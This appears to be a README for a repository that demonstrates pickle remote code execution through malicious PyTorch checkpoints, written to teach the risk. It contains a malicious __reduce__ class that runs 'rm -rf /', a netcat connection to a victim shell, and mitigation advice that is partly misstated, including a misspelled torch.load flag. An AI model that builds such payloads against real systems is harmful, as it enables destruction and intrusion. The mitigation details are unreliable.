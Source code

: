 # Pickle Remote Code Execution (RCE) Vulnerability

This repository demonstrates a security vulnerability in Python's `pickle` module that can lead to remote code execution (RCE). The `pickle` module is used for serializing and deserializing Python objects, but it can execute arbitrary code during deserialization, making it dangerous to use with untrusted data.

## Repository Structure

- `gen_clean_ckpt.py`: Script to generate a clean checkpoint.
- `gen_payload_ckpy.py`: Script to generate a payload checkpoint.
- `payload_example.py`: Example script demonstrating the pickle RCE vulnerability.
- `README.md`: This file.

## Setup

```bash
pip install torch
python gen_clean_ckpt.py
python gen_payload_ckpy.py model_checkpoint.pth
```

Now victim loads the checkpoint using `torch.load`:

```python
torch.load('malicious_checkpoint.pth')
```

Attcker can now connect to the victim's machine using netcat:

```bash
nc localhost 4444 # replace localhost with the victim's IP
```

## Understanding the Vulnerability

The `payload_example.py` script demonstrates how an attacker can exploit the pickle RCE vulnerability. Here's a breakdown of the script:

The attack works by the unpickling or deserializing of python object classes.

As certain class objects might not be easy to serialize and stored by pickle,
such as file objects, sockets, etc. The `__reduce__` method is used to define
how the object should be constructed while unpickling/deserializing.

i.e. arbitrary code execution can be achieved by defining a class with a `__reduce__` method that executes the desired code.

```python
import pickle
import os

class MaliciousPickle:
    def __reduce__(self):
        return (os.system, ('rm -rf /',)) # 😏💣

payload = pickle.dumps(MaliciousPickle())
pickle.loads(payload) # This will execute the payload and the attacker gains control... I MEAN NUKE YOUR WHOLE FILE SYSTEM... DO NOT ACTUALLY EXECUTE THIS EXAMPLE
```

## Mitigations

***Never unpickle untrusted data***. The `pickle` module is not secure against erroneous or maliciously constructed data. It is recommended to use safer alternatives like JSON, XML, or YAML for data serialization and deserialization.

### ML specific mitigations

Always use `torch.load` with the `weight_only=True` flag to load model weights only. This ensures that the model architecture is not loaded from the checkpoint, preventing the execution of arbitrary code.

Or just set the environment variable `TORCH_LOAD_DISABLE_PICKLE` to `1` to disable the use of unsafe pickle in `torch.load`.

Lastly, just switch to using **safetensor** for model checkpoints.

An instance of the vulnerability which documents how untrusted pickle data can lead to remote code execution (RCE). For more details, refer to the official CVE entry:
[CVE-2024-3568](https://nvd.nist.gov/vuln/detail/CVE-2024-3568)
